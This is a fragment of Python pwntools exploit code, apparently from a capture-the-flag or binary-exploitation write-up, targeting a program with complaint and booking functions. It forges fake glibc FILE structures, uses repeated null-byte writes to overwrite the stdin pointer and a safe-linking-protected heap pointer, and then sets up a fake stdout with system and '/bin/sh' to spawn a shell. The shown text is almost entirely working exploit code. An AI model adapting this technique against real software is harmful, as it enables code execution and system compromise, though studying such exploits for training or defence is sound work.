 ```py
        lock = libc.address + 2119440
        stdin_fake = FileStructure(0)
        stdin_fake.flags = 0x3b01010101010101
        stdin_fake._IO_read_base = 0
        stdin_fake._IO_read_ptr = 0
        stdin_fake._IO_buf_base = libc.sym._IO_2_1_stdout_ 
        stdin_fake._IO_buf_end = libc.sym._IO_2_1_stdout_ + 0x200
        stdin_fake.fileno = 0
        stdin_fake._codecvt = self.heap_base + 0x2a0
        stdin_fake._wide_data = wide_data
        stdin_fake._lock= lock
        stdin_fake.unknown2=p64(0)*2+p64(libc.sym['_IO_2_1_stdin_']+0x20)+p64(0)*3+p64(libc.sym['_IO_file_jumps'])


        # write the fake filestruct in the complaint chunk
        edit_complaint(self.cc_dummy_id2, bytes(stdin_fake).replace(b"\x00", b"\x21"))
        null_locs = [i for i, j in enumerate(bytes(stdin_fake)) if j == 0]
        for i in null_locs:
            null_byte(self.cc_dummy_id1, (self.cc_dummy_id2_addr-self.cc_dummy_id1_addr)+i)


        overwrite_target = elf.address + 20528 # stdin pointer in the binary
        payload = p64(self.cc_dummy_id2_addr) # address of the fake struct


        cc_id5_addr = self.heap_base + 0xb48
        cc_id6_addr = self.heap_base + 0xc58

        # overwrite the stdin pointer in bss to point to the fake struct
        null_byte(cc_id6, 376)
        offset = (new_pos_rel_id6 - 8) - cc_id5_addr + 1
        for i in range(7):
            null_byte(cc_id5, offset+i)

        pad = new_pos_rel_id6 - cc_id6_addr

        edit_complaint(cc_id6, b"\x21"*pad + p64(prot_ptr(new_pos_rel_id6, overwrite_target)))
        for i in range(7):
            null_byte(cc_id5, offset+i)
       
        null_byte(cc_id5, (new_pos_rel_id6+7)-cc_id5_addr)
        null_byte(cc_id5, (new_pos_rel_id6+6)-cc_id5_addr)

        add_booking(b"A"*8, b"CC123", payload)

    def overwrite_stdout_shell(self):
        lock = libc.address + 2119440
        stdout_lock = lock
        stdout = libc.sym._IO_2_1_stdout_
        fake_vtable = libc.sym._IO_wfile_jumps - 0x18
        gadget = libc.address + 0x00000000001724f0

        fake_stdout = FileStructure(0)
        fake_stdout.flags = 0x3b01010101010101
        fake_stdout._IO_read_end = libc.sym.system  
        fake_stdout._IO_save_base = gadget
        fake_stdout._IO_write_end = u64(b'/bin/sh')  
        fake_stdout._lock = stdout_lock
        fake_stdout._codecvt = stdout + 0xb8
        fake_stdout._wide_data = stdout + 0x200   
        fake_stdout.unknown2 = p64(0)*2 + p64(stdout + 0x20) + p64(0)*3 + p64(fake_vtable)

```